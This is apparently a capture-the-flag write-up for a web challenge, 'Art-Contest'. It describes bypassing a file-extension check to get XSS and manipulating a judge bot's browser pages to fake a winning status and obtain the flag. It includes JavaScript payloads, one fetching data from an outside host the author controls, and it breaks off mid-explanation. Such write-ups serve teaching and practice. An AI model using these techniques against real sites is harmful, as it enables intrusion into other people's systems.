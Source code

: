 ## Art-Contest
This challenge had a lot of steps and in the end was only solved by 7 teams.

### The Goal
When doing web challenges, I'll usually work backwards by first figuring out where the flag is stored and then seeing what functionality can be used to reach that target. In this case, if the `/judge` endpoint is called with a valid ID and the bot subsequently opens the status page for the ID and it contains "winner!!" in its text, it will replace the content of the status file with the flag. We can then visit the status page and retrieve the flag. It seems as though we will need to confuse the judge bot into thinking our page contains the aforementioned text.

### XSS via file upload bypass
It is possible to upload any file which has either an extension of "txt" or no extension at all. To check the extension, the following code is used:
`ext = os.path.splitext(abs_path)[1]`
This is not a secure means of validating a file extension and we can get XSS by uploading a file with a name such as `...html` to the `/upload` endpoint.
We tried a number of directory traversal tricks here but didn't find anything of use aside from the XSS.
This XSS is useful because the judge bot will visit this file before checking the page status. We can use this to manipulate the bot so that its next request to check the status will contain `winner!!`. But how?
### Polluting context.pages
We can see the following code defines `status_page`:
`status_page = context.pages[1]`
In order to get the flag, we must see `winner!!` in the `status_page.content()` method call. We noticed that using the previous XSS to call `window.open()` does just that. It will add an additional page to the `context.pages` list and it happens to be located at `context.pages[1]`in the list!
A little known fact is that you can actually modify the content of a `window.open()` using code such as:
```js
var my = window.open('/x' + e, '_blank' ,"height=600, width=600");

my.onload = function () {
 my.document.body.innerHTML = "winner!!";
};
```

This would be pass the check for content containing `winner!!` but we must also allow for the `status_page.url ==  "http://localhost:5000/status/" + id` check.
Herein lies a small issue; we don't know the value for the `id` variable!
This isn't actually such a big problem, we can just upload a separate file and save its ID. Then we have a valid ID to reference. I decided to host this on my server and use a `fetch()` to pull its value so I could easily change the ID if I needed:

```js
fetch("http://ireland.re/callback").then(r => {console.log(r.text().then(e => {

var my = window.open('http://127.0.0.1:5000/status/' + e, '_blank' ,"height=600, width=600");

my.onload = function () {
 my.document.body.innerHTML = "winner!!";
};
```
But we encounter another problem here. You can only edit the content of a window if it's within the same origin in which the javascript is executing. Our payload is running on the `file://` URI, which does not have authority over a `localhost` page.
